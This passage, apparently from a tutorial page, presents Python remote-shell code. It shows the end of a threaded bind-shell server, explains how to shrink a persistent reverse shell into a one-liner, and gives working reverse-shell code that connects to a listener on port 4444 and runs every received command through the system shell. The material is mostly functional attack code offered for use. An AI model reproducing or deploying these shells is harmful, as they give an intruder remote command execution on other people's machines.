 ```python
    # Instantiated once per connection to bshell and must override 
    # the handle() method to implement communication to the client.
    # """

    def handle(self):
        ip, port = self.client_address
        print(f"{ip}:{port}> joined ...")
        
        spawn_shell(self.request, ip, port, True)
        
class ThreadedTCPServer(socketserver.ThreadingMixIn, socketserver.TCPServer):
    pass

if __name__ == "__main__":
    try:
        bind_shell()
    except KeyboardInterrupt:
        print("ctrl+c")
```



## **Command Line**

The command line requires that we invent a one line solution so we have to rethink our design a bit. This is the most succinct `persistent reverse shell` that I could come up with at the moment of this writing. The backbone of the infinite loop is this snippet: `[print(_) for _ in iter(int, 1)]`, because int() always returns 0 and the sentinel value is 1 which is never met, we have created an infinite for loop list comprehension that will work in a one-liner. 

Remember that `socket()` defaults to AF_INET (IPv4) and SOCK_STREAM (TCP) so we don't need to waste space in our string importing and using those properties. We've also taken advantage of setting stderr to STDOUT which indicates that the stderr data from the application should be captured into the same file handle as stdout. This saves more space now that we don't have to append proc.stderr.read().

Because sockets are `automatically closed when they are garbage-collected`, despite the fact that it is recommended to use `with` or `close()`, we could probably neglect their use in this context.

# Reverse Shell

```python
from socket     import *
from subprocess import *

# @infinite
def reverse_shell():
    s = socket()
    s.connect(('127.0.0.1', 4444))
    # s = create_connection(('127.0.0.1', 4444))
    [ 
        s.send(
            Popen(
                args=str(s.recv(512), 'ascii'),
                stdout=PIPE,stderr=STDOUT,shell=True
            ).stdout.read()
        ) for _ in iter(int, 1) #..iter(lambda:0, 1) also
    ]
    # s.close() relying on garbage collector to shorten code

if __name__ == "__main__":
    reverse_shell()
```
